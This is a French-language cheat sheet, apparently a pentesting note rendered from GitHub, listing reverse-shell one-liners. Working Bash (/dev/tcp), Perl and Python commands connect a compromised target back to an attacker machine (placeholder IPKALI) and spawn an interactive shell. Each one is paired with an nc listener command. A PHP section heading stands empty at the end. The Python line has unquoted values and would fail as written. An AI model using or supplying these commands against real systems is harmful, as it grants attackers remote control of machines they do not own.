 

## Reverse shell: Bash

Netcat et python ne sont pas installés sur le serveur. Il est toujours possible de lancer un reverse shell en bash.<br/>
Mettre un nc en écoute votre host:
```
nc -lvp 4444
```

Lancer le reverse shell à partir de votre cible:
```
bash -i >& /dev/tcp/IPKALI/4444 0>&1
```








## Reverse shell: Perl

Mettre un nc en écoute sur la kali
```
nc -lvp 4444
```

```
perl -e 'use Socket;$i="IPKALI";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```








## Reverse shell: Python

Mettre un nc en écoute sur la kali
```
nc -lvp 4444
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IPKALI,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(/bin/bash)'
```








## Reverse shell: Php
